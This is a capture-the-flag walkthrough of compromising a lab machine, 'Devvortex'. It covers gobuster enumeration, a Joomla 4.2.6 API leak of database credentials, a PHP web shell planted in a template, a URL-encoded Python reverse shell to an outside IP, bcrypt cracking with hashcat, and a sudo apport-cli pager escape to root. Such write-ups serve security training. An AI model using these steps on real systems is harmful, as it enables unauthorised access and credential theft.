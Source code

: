 ## Port Scan

The port scan shows only the usual port 80 and 22 so a web service and ssh service.
We are running a web site then and we will enumerate it.

## Directory and Vhosts enumeration

```shell
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u devvortex.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://devvortex.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://devvortex.htb/images/]
/css                  (Status: 301) [Size: 178] [--> http://devvortex.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://devvortex.htb/js/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

There is nothing relevant. 
Another thing to test are virtual hosts, using the huge combined_subdomains wordlist from seclists.

```shell
┌──(kali㉿kali)-[~]
└─$ gobuster vhost -w /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt -u 10.10.11.242 --append-domain  --domain devvortex.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://10.10.11.242
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.devvortex.htb Status: 200 [Size: 23221]
```

So there is an hidden virtual host using the subdomain `dev` and we are going to continue from that one.

```shell
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://dev.devvortex.htb/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.devvortex.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
/home                 (Status: 200) [Size: 23221]
/media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
/templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
/modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
/plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]
/includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
/language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
/components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
/cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
/libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
/tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]
/layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
```

Many directories! Let's start exploring them, the website is based on `Joomla`.

## Exploit Known Vulnerability 

The Joomla version is visible via `joomscan`, the tool available in Kali.

```shell
joomscan --url http://dev.devvortex.htb
```

The version is 4.2.6 but no other relevant information is retrieved.

There is a common vulnerability in this version of Joomla, though: https://vulncheck.com/blog/joomla-for-rce. By invoking the following the database credentials will be visible:

```shell
curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true
```

This allows us to retrieve a valid database username and a valid password.
Luckily these are working well with the admin panel as well!

## Admin Panel

Once in the admin panel, it is possible to see and modify certain pages. One example is the file `/templates/cassiopeia/cassiopeia/error.php`, editable from the Joomla template editing menu. This is enough to create a web shell, injecting this code in the PHP page, for instance at the very beginning of the page.

```php
system($_GET['cmd']);
```

then use the following command to inject the shell by passing shell commands via the `cmd` parameter. After trying multiple shells, this python reverse shell works, but it must be URL-encoded.

```shell
curl http://dev.devvortex.htb/templates/cassiopeia/cassiopeia/error.php?cmd=export%20RHOST%3D%2210.10.14.47%22%3Bexport%20RPORT%3D24387%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27
```

## Crack Password

Once in, the user is `www-data` but there is no flag in its home directory. There is another user in the machine, `logan` that happened to be visible in the admin panel as well. Maybe the password for the Joomla user in the database will be the same of the Linux user?

Notice that it is possible to access the `mysql` database on the machine. This can be accessed with the same credentials used for the admin panel. Answer with the password for the user `lewis`.

```shell
mysql -u lewis -p
```

Let's get the password hashes from the users table.

```sql
SHOW TABLE;
```

This will give us all the tables. Let's identify the user table whose name will be prefixed but clearly identifiable.

```sql
SELECT * FROM prefix_users;
```

And from the results, let's get the the hash of the user `logan`. This is a Blowfish hash. Let's crack it via Hashcat.

```shell
hashcat -m3200 <hash_file> /usr/share/wordlists/rockyou.tar.gz
```

The password is `tequieromucho` so we can use that to login via ssh as the user `logan` now
and this user has the `user.txt` file inside his home directory.

## Privilege Escalation

This is trivial. Run `sudo -l` and notice that `apport-cli` can be executed with root privileges.

Running:

```shell
sudo apport-cli -f
```

we can file a crash report. The report editors run in a Linux pager. As usual this can be used to inject commands via the pager shell via `:!sh` that will open a root shell.

The `root.txt` is in the `/root` directory that is now visible.
